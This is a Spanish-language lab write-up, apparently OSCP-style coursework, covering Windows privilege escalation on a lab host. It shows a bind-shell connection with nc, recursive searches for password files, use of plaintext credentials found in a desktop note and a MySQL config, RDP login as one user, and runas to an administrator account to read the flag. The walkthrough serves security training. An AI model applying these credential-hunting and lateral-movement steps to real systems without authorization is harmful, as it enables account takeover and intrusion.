 # Walk: {DESCRIPCIÓN}

## Fecha:03/03/2025
## Host: Windows
## IP: 192.168.113.220
## Objetivo
Connect to the bind shell (port 4444) on _CLIENTWK220_ (VM #1) and follow the steps from this section. Find the flag on the desktop of _backupadmin_.
## Herramientas
1. nc
2. Get-ChildrenItem
3. xfreerdp
4. runas
## Procedimiento y comandos
#### Paso 1: Levantamos el bind shell con el usuario _dave_
`nc 192.168.113.220 4444`
#### Paso 2: Buscamos con _Get-ChildrenItem_ algun archivo que permita escalar privilegios.
```
PS C:\Users\dave> Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
...
Directory: C:\xampp\mysql\bin
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 6/16/2022 1:42 PM 5786 my.ini
...
Directory: C:\xampp
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 3/13/2017 4:04 AM 824 passwords.txt
-a---- 6/16/2022 10:22 AM 792 properties.ini
-a---- 5/16/2022 12:21 AM 7498 readme_de.txt
-a---- 5/16/2022 12:21 AM 7368 readme_en.txt
-a---- 6/16/2022 1:17 PM 1200 xampp-control.ini
```
- Encontramos un archivo de contrasenas y un _my.ini_ que puede llegar a tener credenciales del servidor xamp corriendo.
```
PS C:\Users\dave> type C:\xampp\passwords.txt
type C:\xampp\passwords.txt
### XAMPP Default Passwords ###
1) MySQL (phpMyAdmin):
User: root
Password:
(means no password!)
...
Postmaster: Postmaster (postmaster@localhost)
Administrator: Admin (admin@localhost)
User: newuser
Password: wampp
...
PS C:\Users\dave> type C:\xampp\mysql\bin\my.ini
type C:\xampp\mysql\bin\my.ini
type : Access to the path 'C:\xampp\mysql\bin\my.ini' is denied.
At line:1 char:1
+ type C:\xampp\mysql\bin\my.ini
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : PermissionDenied: (C:\xampp\mysql\bin\my.ini:String) [Get-Content], UnauthorizedAccessEx
ception
+ FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```
- el archivo de contrasenas es un archivo por defecto de _xampp_ y el archivo _**.ini**_ no tenemos permisos de lectura sobre el archivo.
```
PS C:\Users\dave> Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

    Directory: C:\Users\dave\Desktop
Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         6/16/2022  11:28 AM            339 asdf.txt
```
- Encontramos un archivo en el escritorio del usuario _dave_
```
PS C:\Users\dave> cat Desktop/asdf.txt
cat Desktop/asdf.txt
notes from meeting:

- Contractors won't deliver the web app on time
- Login will be done via local user credentials
- I need to install XAMPP and a password manager on my machine 
- When beta app is deployed on my local pc: 
Steve (the guy with long shirt) gives us his password for testing
password is: securityIsNotAnOption++++++
```
- Obtenemos el password de un usuario _steve_: **securityIsNotAnOption++++++**
```
PS C:\Users\dave> net user steve
net user steve
User name                    steve
Full Name                    steve
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/16/2022 11:08:00 AM
Password expires             Never
Password changeable          6/16/2022 11:08:00 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   9/23/2024 3:14:07 AM

Logon hours allowed          All

Local Group Memberships      *helpdesk             *Remote Desktop Users 
                             *Remote Management Use*Users                
Global Group memberships     *None                 
The command completed successfully.
```
- El usuario _**steve**_ tiene habilitado _rdp_
 `xfreerdp /u:"steve" /p:"securityIsNotAnOption++++++" /v:192.168.113.220 /dynamic-resolution +clipboard /cert:ignore`
- Probamos leer como _steve_ el archivo _**my.ini**_
```
PS C:\Users\steve> type C:\xampp\mysql\bin\my.ini
# Example MySQL config file for small systems.
#
# This is for a system with little memory (<= 64M) where MySQL is only used
# from time to time and it's important that the mysqld daemon
# doesn't use much resources.
#
# You can copy this file to
# C:/xampp/mysql/bin/my.cnf to set global options,
# mysql-data-dir/my.cnf to set server-specific options (in this
# installation this directory is C:/xampp/mysql/data) or
# ~/.my.cnf to set user-specific options.
#
# In this file, you can use all long options that a program supports.
# If you want to know which options a program supports, run the program
# with the "--help" option.

# The following options will be passed to all MySQL clients
# backupadmin Windows password for backup job
[client]
password       = admin123admin123!
port=3306
socket="C:/xampp/mysql/mysql.sock"
```
- Encontramos un password **admin123admin123!** y un mensaje:
> backupadmin Windows password for backup job
#### Paso3: Obtenemos el flag 
1. Repetimos el proceso: `net suer backupadmin`
```
PS C:\Users\steve> net user backupadmin
User name                    BackupAdmin
Full Name                    BackupAdmin
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/21/2022 8:43:48 PM
Password expires             Never
Password changeable          6/21/2022 8:43:48 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/13/2023 2:51:06 AM

Logon hours allowed          All

Local Group Memberships      *Administrators       *BackupUsers
                             *Users
Global Group memberships     *None
The command completed successfully.
```
>Lamentablemente, backupadmin no es miembro de los grupos **Usuarios de escritorio remoto** o **Usuarios de administración remota**. Esto significa que debemos encontrar otra forma de acceder al sistema o ejecutar comandos como backupadmin

>Dado que tenemos acceso a una GUI, podemos usar [Runas](https://en.wikipedia.org/wiki/Runas), que nos permite ejecutar un programa como un usuario diferente. Runas se puede usar con cuentas locales o de dominio siempre que el usuario tenga la capacidad de iniciar sesión en el sistema.

```
PS C:\Users\steve> runas /user:backupadmin cmd
Enter the password for backupadmin:
Attempting to start cmd as user "CLIENTWK220\backupadmin" ...
PS C:\Users\steve>
```
- Luego de introducir el password: _**admin123admin123!**_ se abre una ventana con una terminal nueva.
```
C:\Windows\System32>cd C:\Users\backupadmin\Desktop

C:\Users\BackupAdmin\Desktop>ls
'ls' is not recognized as an internal or external command,
operable program or batch file.

C:\Users\BackupAdmin\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 5604-4144

 Directory of C:\Users\BackupAdmin\Desktop

03/03/2025  02:46 PM    <DIR>          .
03/03/2025  07:07 PM    <DIR>          ..
03/03/2025  02:46 PM                38 flag.txt
02/13/2023  02:49 AM             2,354 Microsoft Edge.lnk
               2 File(s)          2,392 bytes
               2 Dir(s)  21,617,283,072 bytes free

C:\Users\BackupAdmin\Desktop>type flag.txt
OS{b4a4**************************b4af}

C:\Users\BackupAdmin\Desktop>
```
- #### flag: OS{b4a4**************************b4af}
